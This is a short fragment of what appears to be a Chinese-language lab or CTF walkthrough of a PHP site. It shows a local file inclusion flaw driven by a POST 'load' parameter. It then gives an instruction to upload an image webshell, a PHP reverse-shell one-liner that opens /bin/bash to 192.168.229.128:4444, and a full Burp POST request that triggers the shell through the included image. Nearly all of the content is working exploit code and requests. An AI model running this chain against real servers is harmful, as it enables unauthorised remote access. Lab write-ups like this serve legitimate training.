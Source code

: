 ```php
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
```

做个图片马上传

php -r '$sock=fsockopen("192.168.229.128",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

burp抓包改一下

```
POST /panel.php?cmd=php+-r+'$sock%3dfsockopen("192.168.229.128",4444)%3bexec("/bin/bash+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
 
Host: 192.168.229.128
 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 
Accept-Encoding: gzip, deflate
 
Content-Type: application/x-www-form-urlencoded
 
Content-Length: 44
 
Origin: http://192.168.229.128
 
Connection: close
 
Referer: http://192.168.229.128/panel.php
 
Cookie: PHPSESSID=qk032v1ta4bih4td5h328fq205
 
Upgrade-Insecure-Requests: 1
 
 
 
load=uploaded_images/1.jpg&continue=continue
 
```



